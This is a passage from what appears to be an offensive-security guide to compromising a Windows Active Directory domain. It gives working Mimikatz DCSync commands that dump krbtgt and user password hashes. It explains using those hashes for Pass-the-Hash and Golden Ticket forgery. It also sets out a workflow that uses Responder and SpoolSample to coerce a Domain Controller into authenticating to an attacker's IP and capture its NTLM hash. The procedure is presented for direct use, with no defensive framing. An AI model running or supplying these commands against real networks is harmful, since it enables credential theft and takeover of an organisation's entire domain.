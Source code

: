 - Launch **Mimikatz** and perform the DCSync:

   ```powershell
   mimikatz # privilege::debug
   mimikatz # lsadump::dcsync /domain:<domain> /user:<username>
   ```

   - `user:<username>` can be `krbtgt` if you want to dump the **Kerberos Ticket Granting Ticket (krbtgt)** account hash, which would allow you to forge **Golden Tickets**.
   - This command will dump password hashes, including **NTLM** and **Kerberos** hashes, for the specified user account.

#### 5. **Use Extracted Hashes for Further Attacks**

With the dumped **NTLM** or **Kerberos** hashes, you can:
- Perform a **Pass-the-Hash** attack using the NTLM hash to authenticate as the dumped user to other systems in the network.
- Forge a **Golden Ticket** with Mimikatz using the **krbtgt** hash, allowing you to impersonate any user in the domain and access any resource indefinitely.

### Example Workflow Summary:

1. **SpoolSample** (or similar tool) to trigger authentication from a Domain Controller or high-privileged user.
2. Capture **NTLM** credentials using **Responder** or similar.
3. **Use Rubeus** to request Kerberos tickets with the captured NTLM hash or cracked password.
4. Perform **DCSync** with **Mimikatz** to dump password hashes from the Domain Controller.

### Alternate Step-by-Step Workflow

#### 1. **Use SpoolSample to Trigger NTLM Authentication from a Domain Controller or Domain Admin**
The **SpoolSample** tool can be used to force a machine (such as a Domain Controller or another system with elevated privileges) to authenticate to an attacker-controlled system. This will help you capture **NTLM** hashes, which can be used to request Kerberos tickets later.

- **Set up an SMB listener** (using **Responder** or **Inveigh**) to capture NTLM hashes from a Domain Controller or high-privileged user:

   Example with **Responder**:
   ```bash
   python Responder.py -I eth0
   ```

- Use **SpoolSample** to force the target Domain Controller (or admin machine) to authenticate to your SMB listener:

   ```bash
   SpoolSample.exe <target_dc> <attacker_ip>
   ```

   - `<target_dc>`: IP or hostname of the Domain Controller or system you're targeting.
   - `<attacker_ip>`: IP address of your attacking machine where the SMB listener is running.

   **Result**: You should capture the **NTLM hash** of the privileged user (e.g., Domain Controller’s machine account or a domain admin’s account).
